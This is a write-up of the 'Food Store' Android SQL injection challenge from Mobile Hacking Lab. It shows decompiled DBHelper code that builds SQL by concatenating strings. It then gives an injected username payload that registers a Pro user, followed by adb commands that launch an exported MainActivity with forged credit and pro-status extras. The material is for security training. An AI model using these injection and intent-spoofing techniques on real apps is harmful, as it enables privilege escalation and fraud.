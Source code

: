 ```
---
title: Food Store - Mobile Hacking Lab
date: 2025-2-1 00:00:00 +/-TTTT
categories: [Mobile Hacking Lab]
tags: [mobile hacking lab, writeup, mobile penetration testing, android]     # TAG names should always be lowercase

---
```

<br />

### Introduction

Welcome to the **Android App Security Lab: SQL Injection Challenge**! Dive into the world of cybersecurity with our hands-on lab. This challenge is centered around a fictitious "Food Store" app, highlighting the critical security flaw of SQL Injection (SQLi) within the app's framework.

<br />

### Objective

Exploit a SQL Injection Vulnerability: Your mission is to manipulate the signup function in the "Food Store" Android application, allowing you to register as a Pro user, bypassing standard user restrictions.

<br />



The sign up screen enables the creation of a new user account by entering a username, password, and address. Upon successful sign-up, a toast message is displayed confirming the account creation.

<br />

![](/assets/img/mhl/FoodStore/1.png)





<br /><br />

The sign-in screen enables you to log in using your username and password. Upon successful sign-in, the product listing screen is displayed.

![](/assets/img/mhl/FoodStore/2.png)

<br /><br />



The product listing screen shows user information and allows you to order products using credits. A standard account has a limited number of credits available for placing orders.

![](/assets/img/mhl/FoodStore/4.png)





<br /><br />

![](/assets/img/mhl/FoodStore/5.png)





<br /><br />

**Analyzing the application using JADX**

From: AndroidManifest.xml

```xml
<activity
    android:name="com.mobilehackinglab.foodstore.Signup"
    android:exported="false"/>
<activity
    android:name="com.mobilehackinglab.foodstore.MainActivity"
    android:exported="true"/>
<activity
    android:name="com.mobilehackinglab.foodstore.LoginActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
```



<br />

From: com.mobilehackinglab.foodstore.Signup

```java
User newUser = new User(i, obj, obj2, editText2.getText().toString(), false, 1, null);
dbHelper.addUser(newUser);
Toast.makeText(this$0, "User Registered Successfully", 0).show();
```

<br />



From: com.mobilehackinglab.foodstore.DBHelper

```java
public final class DBHelper extends SQLiteOpenHelper {
    public static final String DATABASE_NAME = "userdatabase.db";
    public static final int DATABASE_VERSION = 1;


    @Override // android.database.sqlite.SQLiteOpenHelper
    public void onCreate(SQLiteDatabase db) {
        Intrinsics.checkNotNullParameter(db, "db");
        db.execSQL("CREATE TABLE users (\n    id INTEGER PRIMARY KEY AUTOINCREMENT,\n    username TEXT,\n    password TEXT,\n    address TEXT,\n    isPro INTEGER\n    \n    \n)");
    }

    
    
    
        public final void addUser(User user) {
        Intrinsics.checkNotNullParameter(user, "user");
        SQLiteDatabase db = getWritableDatabase();
        byte[] bytes = user.getPassword().getBytes(Charsets.UTF_8);
        Intrinsics.checkNotNullExpressionValue(bytes, "this as java.lang.String).getBytes(charset)");
        String encodedPassword = Base64.encodeToString(bytes, 0);
        String Username = user.getUsername();
        byte[] bytes2 = user.getAddress().getBytes(Charsets.UTF_8);
        Intrinsics.checkNotNullExpressionValue(bytes2, "this as java.lang.String).getBytes(charset)");
        String encodedAddress = Base64.encodeToString(bytes2, 0);
        String sql = "INSERT INTO users (username, password, address, isPro) VALUES ('" + Username + "', '" + encodedPassword + "', '" + encodedAddress + "', 0)";
        db.execSQL(sql);
        db.close();
    }
}
```

The above code inserts a new entry into the **users** table with the following values:

- **Username**: User-provided username
- **Password**: Base64-encoded password
- **Address**: Base64-encoded address
- **isPro**: Set to **0**, which represents **false**

For the example user, the values are:

- **Username**: `test`
- **Password**: `dGVzdA==` (Base64-encoded **test**)
- **Address**: `RWd5cHQ=` (Base64-encoded **Egypt**)
- **isPro**: `0` (**false**)

This translates into the following SQL statement:

```sql
INSERT INTO users (username, password, address, isPro) VALUES ('test', 'dGVzdA==', 'RWd5cHQ=', 0);
```

<br />

![](/assets/img/mhl/FoodStore/3.png)



<br /><br />

**Exploit the SQLi**

we need to create a new user with base64 password and address and 

```javascript
test2','MTIzNA==','RWd5cHQ=',1);#
```

<br />

Should result in the following query:

```sql
INSERT INTO users (username, password, address, isPro) VALUES ('test2','MTIzNA==','RWd5cHQ=',1);# ', 'dGVzdA==', 'RWd5cHQ=', 0)
```

The values will be:

- **Username**: `test2`
- **Password** (Base64-encoded **1234**): `MTIzNA==`
- **Address**: Any address in Base64 (for example **Egypt**): `RWd5cHQ=`
- **isPro**: `1` (**true**, indicating a pro user)

<br />

![](/assets/img/mhl/FoodStore/6.png)



<br /><br />

Login with the new user:

Now we are a Pro user

![](/assets/img/mhl/FoodStore/7.png)





<br /><br />



**Authentication Bypass**

It is important to note that **MainActivity**, intended to be accessible only after a successful sign-in, was **exported**, making it possible to access it directly.

```bash
adb shell am start -n com.mobilehackinglab.foodstore/.MainActivity
```

<br />

![](/assets/img/mhl/FoodStore/8.png)



<br /><br />

From: com.mobilehackinglab.foodstore.LoginActivity

```java
public static final void onCreate$lambda$1(EditText $usernameEditText, EditText $passwordEditText, LoginActivity this$0, View it) {
    Intrinsics.checkNotNullParameter(this$0, "this$0");
    String inputUsername = $usernameEditText.getText().toString();
    String inputPassword = $passwordEditText.getText().toString();
    User user = this$0.getDbHelper().getUserByUsername(inputUsername);
    if (user == null || !Intrinsics.areEqual(user.getPassword(), inputPassword)) {
        Toast.makeText(this$0, "Invalid Credentials", 0).show();
        return;
    }
    Toast.makeText(this$0, "Login Successful", 0).show();
    int credit = user.isPro() ? 10000 : 100;
    Intent intent = new Intent(this$0, (Class<?>) MainActivity.class);
    intent.putExtra("USERNAME", inputUsername);
    intent.putExtra("USER_CREDIT", credit);
    intent.putExtra("IS_PRO_USER", user.isPro());
    intent.putExtra("USER_ADDRESS", user.getAddress());
    this$0.startActivity(intent);
    this$0.finish();
}
```

a **ternary operator** to assign **credits** based on the user type:

- If the user is **Pro** (`user.isPro()` returns **true**), the user gets **10,000 credits**.
- If the user is **Normal** (`user.isPro()` returns **false**), the user gets only **100 credits**.

The user's information, including username, credits, address, and account type, is passed to the next activity through **Intent extras**.

<br />

**adb**

```bash
adb shell am start -n com.mobilehackinglab.foodstore/.MainActivity --es "USERNAME" "test3" --ei "USER_CREDIT" 133337 --ez "IS_PRO_USER" true --es "USER_ADDRESS" "Egypt"
```

<br />

![](/assets/img/mhl/FoodStore/9.png)









